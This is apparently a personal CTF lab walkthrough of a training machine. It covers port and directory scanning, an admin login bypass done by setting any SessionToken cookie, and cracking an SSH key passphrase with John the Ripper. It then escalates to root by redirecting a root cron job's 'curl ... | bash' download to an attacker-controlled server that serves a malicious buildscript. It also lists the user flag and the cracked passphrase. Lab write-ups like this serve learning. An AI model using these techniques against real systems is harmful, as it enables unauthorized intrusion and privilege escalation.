 #ssh_rsakey
************
# DISCOVERY
************
**nmap**
sudo nmap -sV -O -T4 -p- $TGT
	PORT   STATE SERVICE VERSION
	22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
	80/tcp open  http    Golang net/http server (Go-IPFS json-rpc or InfluxDB API)


## Website

Passwords never leave PC
Stored in encrypted file

**STAFF**
	Ninja - Lead Developer
	Pars - Shibe Enthusiast and Emotional Support Animal Manager
	Szymex - Head Of Security
	Bee - Chief Drinking Water Coordinator
	MuirlandOracle - Cryptography Consultant

**Web Directories**
	gobuster dir -u http://$TGT -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt 
		/img                  (Status: 301) [Size: 0] [--> img/]
		/downloads            (Status: 301) [Size: 0] [--> downloads/]
		/aboutus              (Status: 301) [Size: 0] [--> aboutus/]  
		/admin                (Status: 301) [Size: 42] [--> /admin/]  
		/css                  (Status: 301) [Size: 0] [--> css/]  


# Gaining Access
## Web
**/admin**
	View source:
		login.js
	/login.js
		else {
        Cookies.set("SessionToken",statusOrCookie)
        window.location = "/admin"
	    }
	In inspector make SessionToken
		Set value to LoggedIn as test (turns out any value is acceptable)
		Access to /admin acheived
	![[../Z - Walkthrough Images/Pasted image 20220915090630.png]]


**SSH KEY**
	User: James
	Save key

## SSH
RSA passphrase for encrypted
	ssh2john jamesrsa > id_rsa.hash
	john -w=/usr/share/wordlists/rockyou.txt id_rsa.hash 
		jamesrsa : james13
This gives the rsa passphrase to login with shh
SSH login
	ssh -i jamesrsa james@10.10.92.70
	passphrase: james13

**USER FLAG**
	cat user.txt
		thm{65c1aaf000506e56996822c6281e6bf7}

# Priv esc
Note mentions automating
	cat /etc/crontab
		# Update builds from latest code
		root curl overpass.thm/downloads/src/buildscript.sh | bash
	Change /etc/hosts overpass.thm to point to own machine
Setup python server with file structure
	Create buildscript.sh to all priv esc
		Set everything to 777 perm in root folder
			>chmod -R 777 /root/;
		